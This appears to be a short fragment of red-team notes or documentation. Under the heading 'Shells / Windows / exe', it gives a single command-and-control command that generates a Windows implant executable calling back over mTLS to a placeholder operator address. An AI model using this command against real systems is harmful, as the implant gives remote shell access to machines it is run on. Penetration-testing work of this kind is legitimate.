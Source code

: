 Shells
****************

Windows
#############

exe
++++++++

..code-block:: console

    generate -f exe -o windows -a amd64 --mtls X.X.X.X:<port> -s /tmp -n NAME
